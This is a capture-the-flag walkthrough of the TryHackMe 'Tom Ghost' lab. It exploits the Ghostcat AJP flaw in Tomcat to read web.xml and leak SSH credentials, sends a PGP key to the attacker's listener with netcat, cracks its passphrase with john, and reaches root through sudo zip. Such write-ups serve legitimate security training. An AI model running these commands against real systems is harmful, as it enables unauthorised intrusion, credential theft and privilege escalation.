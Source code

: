 # Tom Ghost Cat
[Play](https://tryhackme.com/room/tomghost)

## Recon
```
❯ nmap -sC -sV -A -T4 10.10.218.100
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 21:58 EST
Nmap scan report for 10.10.218.100
Host is up (0.18s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.05 seconds
```

This machine shows no port on `80`, which explains the reason why Firefox was shouting at me. I looked up for `AJP` and `Tomcat` and all such combinations. The exploit seems interesting to look a bit deeper into. [This](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp) explains the innerworkings of this service and what we could expect going forward. This [APJ 13 Vulnerability](https://medium.com/@prem2/ghostcat-vulnerability-cve-2020-1938-ajp-lfi-apache-tomcat-server-vulnerability-9f57330e3eb1) explains how `WEB-INF/web.xml` is a good starting point. 

Looking up more, we have this tool, called [ajshooter](https://github.com/00theway/Ghostcat-CNVD-2020-10487). We see this command plays well with the above explaination. `python3 ajpShooter.py http://10.10.218.100:8080 8009 /WEB-INF/web.xml read`


We get:
```
❯ python3 ajpshooter.py http://10.10.218.100:8080 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:{haha, password go brr}
  </description>

</web-app>
```

With no other port open, its safe to say that those are ssh credentials :D

## Foothold

```
❯ ssh skyfuck@10.10.218.100
The authenticity of host '10.10.218.100 (10.10.218.100)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.218.100' (ECDSA) to the list of known hosts.
skyfuck@10.10.218.100's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

```
skyfuck@ubuntu:/home/merlin$ cat user.txt 
THM{stonks}
```

## PrivEsc
Using the commands on the machine `skyfuck@ubuntu:~$ cat tryhackme.asc | netcat 10.8.150.214 6969` and `❯ nc -lnvp 6969 > tryhackme.asc` on ours, we transfer the files for further inspection.

We do the same for `credentials.pgp`. It looks like we need some passphrase before doing this, so lets do `gpg2john` and then run `john`.


```
❯ gpg2john tryhackme.asc > hash

File tryhackme.asc
❯ cat hash
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
❯ john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2021-03-04 23:51) 1.694g/s 1816p/s 1816c/s 1816C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Let's import, this time giving the passphrase
```
❯ gpg --import tryhackme.asc
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

and now,
```
❯ gpg --decrypt cred.pgp
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:{haha, password go brr}
```

We are done with the lateral movement!


Now, onto `merlin`.
```
❯ ssh merlin@10.10.218.100
merlin@10.10.218.100's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Tue Mar 10 22:56:49 2020 from 192.168.85.1
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ 
```

gtfobins makes it too easy lmao
```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# ls
user.txt
# whoami
root
```

we are done!
```
# cd /root
# ls
root.txt  ufw
# cat root.txt
THM{pwned!}
```
